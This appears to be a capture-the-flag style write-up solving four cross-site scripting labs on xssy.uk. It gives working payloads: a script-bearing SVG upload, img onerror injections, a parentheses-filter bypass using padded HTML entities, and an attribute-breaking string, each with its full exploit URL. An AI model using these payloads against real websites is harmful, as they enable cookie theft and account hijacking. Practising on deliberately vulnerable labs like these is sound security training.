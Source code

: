 
### Lab 625: File Upload XSS
- **URL Lab**: https://xssy.uk/lab/625
- **Payload (SVG File)**: 
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
  <script type="text/javascript">
    alert(document.cookie);
  </script>
</svg>
```

---

### Lab 764: Understanding DOM
- **URL Lab**: https://xssy.uk/lab/764
- **Payload**: 
```html
<img src=x onerror=alert(document.cookie)>
```
- **Full URL**: 
```
https://ccgq7jee.xssy.uk/target.ftl?search=%3Cimg%20src=x%20onerror=alert(document.cookie)%3E
```

---

### Lab 765: No Brackets
- **URL Lab**: https://xssy.uk/lab/765
- **Payload**: 
```html
<img src=x onerror=alert&#0000000040;document.cookie&#0000000041;>
```
- **Full URL**: 
```
https://c5ryxpyq.xssy.uk/target.ftl?search=%3Cimg+src%3Dx+onerror%3Dalert%26%230000000040%3Bdocument.cookie%26%230000000041%3B%3E
```
- **Description**: Bypass filter `()` via ASCII Decimal

---

### Lab 767: Interpolation
- **URL Lab**: https://xssy.uk/lab/767
- **Payload**: 
```html
dimana" onerror="alert(document.cookie)
```
- **Full URL**: 
```
https://n2kk6q7k.xssy.uk/target.ftl?search=dimana%22%20onerror=%22alert(document.cookie)
```

---
